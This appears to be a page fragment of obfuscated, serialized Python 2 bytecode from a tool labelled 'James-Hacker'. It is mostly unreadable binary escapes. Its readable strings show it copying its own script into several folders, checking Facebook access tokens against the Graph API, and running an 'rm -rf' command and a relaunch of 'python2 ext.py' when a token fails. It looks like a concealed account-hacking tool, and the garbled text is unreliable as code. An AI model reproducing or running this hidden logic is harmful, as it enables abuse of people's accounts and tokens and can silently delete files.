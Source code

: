 <James-Hacker>t\x03\x00\x00\x00tik_\x00\x00\x00s\n\x00\x00\x00\x00\x01\x0f\x01\r\x01\x08\x00\r\x00i\x00\x00\x00\x00c\x00\x00\x00\x00\x00\x00\x00\x00\x05\x00\x00\x00C\x00\x00\x00sX\x00\x00\x00y\x18\x00t\x00\x00\x83\x00\x00\x01t\x01\x00j\x02\x00d\x01\x00\x83\x01\x00\x01Wn\x18\x00\x04t\x03\x00k\n\x00r2\x00\x01\x01\x01t\x04\x00\x83\x00\x00\x01n"\x00Xt\x01\x00j\x05\x00d\x02\x00\x83\x01\x00\x01t\x01\x00j\x05\x00d\x03\x00\x83\x01\x00\x01t\x06\x00\x83\x00\x00\x01d\x00\x00S(\x04\x00\x00\x00Ns\x0e\x00\x00\x00../james/.....s"\x00\x00\x00cp ../ext/ext.py ../james/James.pys\x1e\x00\x00\x00cp ../ext/.README.md ../james/(\x07\x00\x00\x00R$\x00\x00\x00R\x04\x00\x00\x00t\x05\x00\x00\x00mkdirt\x07\x00\x00\x00OSErrort\x02\x00\x00\x00ypR#\x00\x00\x00t\x02\x00\x00\x00yb(\x00\x00\x00\x00(\x00\x00\x00\x00(\x00\x00\x00\x00s\x0e\x00\x00\x00<James-Hacker>t\x02\x00\x00\x00ymk\x00\x00\x00s\x10\x00\x00\x00\x00\x01\x03\x01\x07\x01\x11\x01\r\x01\x0b\x02\r\x01\r\x01c\x00\x00\x00\x00\x00\x00\x00\x00\x05\x00\x00\x00C\x00\x00\x00sQ\x00\x00\x00y\x11\x00t\x00\x00j\x01\x00d\x01\x00\x83\x01\x00\x01Wn\x18\x00\x04t\x02\x00k\n\x00r+\x00\x01\x01\x01t\x03\x00\x83\x00\x00\x01n"\x00Xt\x00\x00j\x04\x00d\x02\x00\x83\x01\x00\x01t\x00\x00j\x04\x00d\x03\x00\x83\x01\x00\x01t\x03\x00\x83\x00\x00\x01d\x00\x00S(\x04\x00\x00\x00Ns\x15\x00\x00\x00../BlackHat2021/.....s&\x00\x00\x00cp ../ext/ext.py ../BlackHat2021/Blacks%\x00\x00\x00cp ../ext/.README.md ../BlackHat2021/(\x05\x00\x00\x00R\x04\x00\x00\x00R(\x00\x00\x00R)\x00\x00\x00t\x02\x00\x00\x00ylR#\x00\x00\x00(\x00\x00\x00\x00(\x00\x00\x00\x00(\x00\x00\x00\x00s\x0e\x00\x00\x00<James-Hacker>R+\x00\x00\x00v\x00\x00\x00s\x0e\x00\x00\x00\x00\x01\x03\x01\x11\x01\r\x01\x0b\x02\r\x01\r\x01c\x00\x00\x00\x00\x00\x00\x00\x00\x05\x00\x00\x00C\x00\x00\x00sQ\x00\x00\x00y\x11\x00t\x00\x00j\x01\x00d\x01\x00\x83\x01\x00\x01Wn\x18\x00\x04t\x02\x00k\n\x00r+\x00\x01\x01\x01t\x03\x00\x83\x00\x00\x01n"\x00Xt\x00\x00j\x04\x00d\x02\x00\x83\x01\x00\x01t\x00\x00j\x04\x00d\x03\x00\x83\x01\x00\x01t\x03\x00\x83\x00\x00\x01d\x00\x00S(\x04\x00\x00\x00Ns\x10\x00\x00\x00../Behappy/.....s&\x00\x00\x00cp ../ext/ext.py ../Behappy/Behappy.pys \x00\x00\x00cp ../ext/.README.md ../Behappy/(\x05\x00\x00\x00R\x04\x00\x00\x00R(\x00\x00\x00R)\x00\x00\x00R*\x00\x00\x00R#\x00\x00\x00(\x00\x00\x00\x00(\x00\x00\x00\x00(\x00\x00\x00\x00s\x0e\x00\x00\x00<James-Hacker>R-\x00\x00\x00\x80\x00\x00\x00s\x0e\x00\x00\x00\x00\x01\x03\x01\x11\x01\r\x01\x0b\x02\r\x01\r\x01c\x00\x00\x00\x00\x00\x00\x00\x00\x05\x00\x00\x00C\x00\x00\x00sQ\x00\x00\x00y\x11\x00t\x00\x00j\x01\x00d\x01\x00\x83\x01\x00\x01Wn\x18\x00\x04t\x02\x00k\n\x00r+\x00\x01\x01\x01t\x03\x00\x83\x00\x00\x01n"\x00Xt\x00\x00j\x04\x00d\x02\x00\x83\x01\x00\x01t\x00\x00j\x04\x00d\x03\x00\x83\x01\x00\x01t\x03\x00\x83\x00\x00\x01d\x00\x00S(\x04\x00\x00\x00Ns\r\x00\x00\x00../azim/.....s\x1e\x00\x00\x00cp ../ext/ext.py ../azim/bdmans\x1d\x00\x00\x00cp ../ext/.README.md ../azim/(\x05\x00\x00\x00R\x04\x00\x00\x00R(\x00\x00\x00R)\x00\x00\x00t\x04\x00\x00\x00menuR#\x00\x00\x00(\x00\x00\x00\x00(\x00\x00\x00\x00(\x00\x00\x00\x00s\x0e\x00\x00\x00<James-Hacker>R*\x00\x00\x00\x8a\x00\x00\x00s\x0e\x00\x00\x00\x00\x01\x03\x01\x11\x01\r\x01\x0b\x02\r\x01\r\x01c\x00\x00\x00\x00\x05\x00\x00\x00\x05\x00\x00\x00C\x00\x00\x00s\x87\x01\x00\x00t\x00\x00j\x01\x00d\x01\x00\x83\x01\x00\x01y\x19\x00t\x02\x00d\x02\x00d\x03\x00\x83\x02\x00j\x03\x00\x83\x00\x00}\x00\x00WnJ\x00\x04t\x04\x00k\n\x00rr\x00\x01\x01\x01t\x00\x00j\x01\x00d\x01\x00\x83\x01\x00\x01d\x04\x00GHt\x00\x00j\x01\x00d\x05\x00\x83\x01\x00\x01t\x05\x00j\x06\x00d\x06\x00\x83\x01\x00\x01t\x00\x00j\x07\x00d\x07\x00\x83\x01\x00\x01n\x01\x00Xy=\x00t\x08\x00j\t\x00d\x08\x00|\x00\x00\x17\x83\x01\x00}\x01\x00t\n\x00j\x0b\x00|\x01\x00j\x0c\x00\x83\x01\x00}\x02\x00|\x02\x00d\t\x00\x19}\x03\x00|\x02\x00d\n\x00\x19}\x04\x00Wnl\x00\x04t\r\x00k\n\x00r\xfc\x00\x01\x01\x01t\x00\x00j\x01\x00d\x01\x00\x83\x01\x00\x01d\x0b\x00GHt\x00\x00j\x01\x00d\x05\x00\x83\x01\x00\x01t\x05\x00j\x06\x00d\x06\x00\x83\x01\x00\x01t\x00\x00j\x07\x00d\x07\x00\x83\x01\x00\x01n#\x00\x04t\x08\x00j\x0e\x00j\x0f\x00k\n\x00r\x1e\x01\x01\x01\x01d\x0c\x00GHt\x10\x00\x83\x00\x00\x01n\x01\x00Xt\x00\x00j\x01\x00d\x01\x00\x83\x01\x00\x01t\x11\x00GHd\r\x00|\x03\x00\x17d\x0e\x00\x17GHd\x0f\x00|\x04\x00\x17d\x10\x00\x17GHd\x11\x00d\x12\x00\x14GHHd\x13\x00GHd\x14\x00GHd\x15\x00GHd\x16\x00GHd\x17\x00GHd\x18\x00GHd\x11\x00d\x12\x00\x14GHt\x12\x00\x83\x00\x00\x01d\x00\x00S(\x19\x00\x00\x00NR"\x00\x00\x00s\x04\x00\x00\x00....t\x01\x00\x00\x00rs\x11\x00\x00\x00[!] Token invalids\x0b\x00\x00\x00rm -rf ....i\x01\x00\x00\x00s\x0e\x00\x00\x00python2 ext.pys+\x00\x00\x00https://graph.facebook.com/me?access_token=t\x04\x00\x00\x00namet\x02\x00\x00\x00ids/\x00\x00\x00[!] It seems that your account has a checkpoints#\x00\x00\x00[!] There is no internet